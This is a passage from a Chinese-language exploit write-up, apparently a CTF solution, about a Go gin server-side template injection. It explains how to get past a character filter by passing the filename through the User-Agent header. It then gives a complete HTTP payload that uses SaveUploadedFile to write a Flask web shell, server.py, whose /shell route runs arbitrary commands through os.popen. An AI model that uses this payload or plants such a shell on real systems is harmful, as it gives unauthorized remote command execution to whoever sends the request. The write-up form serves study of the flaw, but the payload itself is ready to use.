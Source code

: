    
  
同时由于存在对于一些字符的过滤所以不能直接传入  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNFrrXWcrbiaGRcdL4ZP4micVcRV0102sygFcbHj4EpNLUWO7CnSvPg2N35TkNxzeicfCoh5kEwS9kKQ/640?wx_fmt=png&from=appmsg "")  
  
   
  
所以同时又使用了gin.Context  
中属性Request  
所属类的UserAgent()  
方法，通过请求头中的User-Agent  
传参的方式绕过过滤  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNFrrXWcrbiaGRcdL4ZP4micVEKENHdS6zPFv1Xle27iaIUhpYliaRK6ueSoUxic5pW4iauibOz0UU0whbCQ/640?wx_fmt=png&from=appmsg "")  
  
   
  
最终payload如下  
  
   
```
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
Host: localhost
Content-Length: 613
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: server.py
Connection: close

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="server.py"; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryrxtSm5i2S6anueQi--
```  
  